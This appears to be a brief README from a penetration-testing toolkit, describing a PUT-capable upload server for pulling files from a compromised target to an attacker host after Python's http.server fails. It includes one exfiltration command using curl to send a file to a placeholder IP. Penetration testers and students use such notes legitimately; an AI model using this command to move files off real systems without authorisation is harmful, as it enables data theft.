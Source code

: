 Python modules http.server and uploadserver appear not to be working when attempting to upload a file from the target to your attacker host. It returns an error that the PUT method is not supported.
So this script will help, just run it and try to upload a file.

Linux: curl --upload-file <filename> http://<ip>:8000/

Note: I did not write code, I just found it and saved it.
